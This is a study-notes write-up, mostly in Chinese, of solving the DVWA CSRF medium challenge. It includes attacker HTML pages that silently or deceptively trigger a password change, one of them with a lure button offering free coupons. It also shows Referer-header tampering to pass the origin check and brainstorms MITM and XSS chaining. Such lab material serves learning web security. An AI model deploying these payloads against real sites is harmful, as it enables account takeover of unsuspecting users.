 # Cross Site Request Forgery (CSRF)

> Medium Level
For the medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must of come from the web application so it can be trusted.
It may be required to link in multiple vulnerabilities to exploit this vector, such as reflective XSS.

看提示有寫說後端會判斷 request 是否來自同一個網域，代表我必須在 DVWA 以外的網域建立一個惡意頁面模擬攻擊場景

現在瀏覽器也有 CORS 限制，也就是禁止不同網域的請求，因此要克服這兩個因素

跨來源資源共用（CORS） - HTTP | MDN
[https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS)

要繞過 CORS 和 request 來源檢查我大概會參考到至少這兩個條件:

1. 將 request 轉為後端傳送，這樣就可以突破瀏覽器的 CORS 限制 (但前提是你需要有對方的 cookie 或 csrf token)
2. 更改 request header 裡的 `Referer` 欄位以偽照來源

但是不同域名的話就無法取得 user 的 cookie 內的 PHPSESSIONID 🤔，不知道有沒解法 ?

## Test trigger CSRF attack from other domain

### By GET img tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
<img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```
先建立一個測試用的 server，用來放惡意攻擊頁面

惡意頁面網址:

```
http://192.168.0.196:8080/get-img.html
```

瀏覽器會將 DVWA 的網址 http://localhost:8086/vulnerabilities/csrf/ 和惡頁面的網址視為不同域名

### 假裝是受害者被騙連到惡意網頁

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/630b70ea-e67c-4c69-95c4-27e344b54cf1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T035944Z&X-Amz-Expires=86400&X-Amz-Signature=955a6e04aab80743535c1d6832bfb43a1c9890caecd5687015623c89d56627e5&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f98de600-4844-4322-9e72-f7a4b79eb39f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040004Z&X-Amz-Expires=86400&X-Amz-Signature=891412560875d25c96a1e88d1b3607cb05ca6f1f3286ff62d9c71f894c9bbb08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)



### failed

![failed](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/116efe83-b65d-40f8-b247-db202fcd8eb5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040058Z&X-Amz-Expires=86400&X-Amz-Signature=454d5731f61897edb5d6eff1457ed3715c5a0ed4e63e1fa7a17d1c0e11b1ab73&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

看來沒有效，失敗 😭，get img tag 的方式沒辦法用於不同域名的場景

---
### By GET Form

這邊是參考別人的 writeup，做一個 GET form 從惡意頁面跳轉到目標網域的頁面

為了方便觀察就不隱藏表單了

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by POST</title>
  <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
</head>
<body>
set password to: 1111

<form action="http://localhost:8086/vulnerabilities/csrf/" method="get">
  <input type="xhidden" name="password_new" value="1111"/>
  <input type="xhidden" name="password_conf" value="1111"/>
  <input type="hidden" name="Change" value="Change"/>
  <input type="submit" value="Get free coupons 💸💸💸"/>
</form>
</body>
</html>
```
塞一個 form 給受害者點下去跳轉，理論上應該是可以，但實在是太可疑了XD，會讓人起疑心 除非能夠在瞬間又跳轉到其他頁面，目前想到的可能的場景是分享,重設密碼,串這跳轉這類功面能性頁，這類功能通常是一瞬間就被重導走，而且帶有參數可以讓你指定接下來要跳轉到哪邊去

另一種場竟是我已經拿下 DVWA 網域的某個頁面，再讓受害者跳轉到這個 CSRF 頁面

![That request didn't look correct.](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b7a07cdb-ac3b-4044-916e-7afb3ecc3136/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040207Z&X-Amz-Expires=86400&X-Amz-Signature=bf76732e0fc0d3fc22214d2d5032a28bb19612965faaa2ddd7385b167f72f27c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```html
That request didn't look correct.
```
### Intercept and change Referer value (Tamper Data)

想辦法讓 header 變成跟 DVWA 的一樣，要做到這件事必須從中攔截再修改

可以使用 Tamper Data 或 Burp Suite

Tamper Data for FF Quantum – 下載 🦊 Firefox 擴充套件（zh-TW）
[https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/](https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/)

```
Referer http://localhost:8086/vulnerabilities/csrf/
```

進入惡意頁面，按下送出
![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b443baeb-2271-4740-a2a1-d4dc91ebfcb2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042909Z&X-Amz-Expires=86400&X-Amz-Signature=b739b0c296058934c70baa36083ad5a60834826f25c361712540ad2e03b40ff2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/073b8349-3065-4c67-bc95-be0f1b5766e8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043047Z&X-Amz-Expires=86400&X-Amz-Signature=1b5d13c018618efa63b9e882681f2c153331fd0e01b166de83cfe8c324c609a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

Before
![before](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9805fb6d-c1aa-45e6-92d9-1e0f1ffab0b2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043129Z&X-Amz-Expires=86400&X-Amz-Signature=05f02453502fe2c30030cf8c52d5adc52d88725885f62cd5a23ffcc14d980abc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

After
![after](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2f621a8d-c2ce-4644-8b0c-a4196e319e08/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043150Z&X-Amz-Expires=86400&X-Amz-Signature=8a9e0410a8b49b52995111f5fc24d0868bce8cf9306b0388812409699325f548&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done
![done](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d7d4cba8-ace3-4196-8ff6-26bd1fdaaa8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043241Z&X-Amz-Expires=86400&X-Amz-Signature=8816c29b3c2ccc0c2cb00cd0fd52306e06ba17f5d4593d19ea5235ead428cb37&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### 夠過用 Network panel 修改
接下來所做的操作跟之前使用 tamper data 的流程差不多，只是工具不同

如果有在 browser tool 設定頁面開啟 log 紀錄保存的話就可以看到跳轉後的 request，接著再回到惡意頁面修改 Referer

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ff68ec45-3783-469d-9738-5b85a5306a60/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043642Z&X-Amz-Expires=86400&X-Amz-Signature=42e39ee3f3f43b2d00e5d3971eb147c62c6789801014a0a65a1e1b7a803d8d8e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/1018f2c6-3b16-4d66-84e5-7431140aaf78/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043716Z&X-Amz-Expires=86400&X-Amz-Signature=7b849c91ad9ea168a1d0fbdb163113c3f5e600892a57557875363878306a9b14&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4fbf987c-624b-4db2-9ed7-75667d4ab672/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043725Z&X-Amz-Expires=86400&X-Amz-Signature=a086b6e7d76a207395be244386fc8f2b29f47f102fab47fd0c63c724fc655ce4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### memo:

一些心得和未經過驗證的想法，先記錄一下

若要做到自動串改的話，也許可以從這些地方下手

- 惡意瀏覽器套件
- MITM
- 濫用目標網站的跳轉功能 (可能可以搭配 XSS)
- 對付 Referer 用竄改，對付 token 用擷取

如果從目標網站再進行間接跳轉不知道可不可行 ? 也就是

```html
惡意頁面 -> DVWA page A -> DVWA page B
```

但在這之前要先確認 DVWA page A 上是否有能夠有 XSS 的地方或能濫用的功能
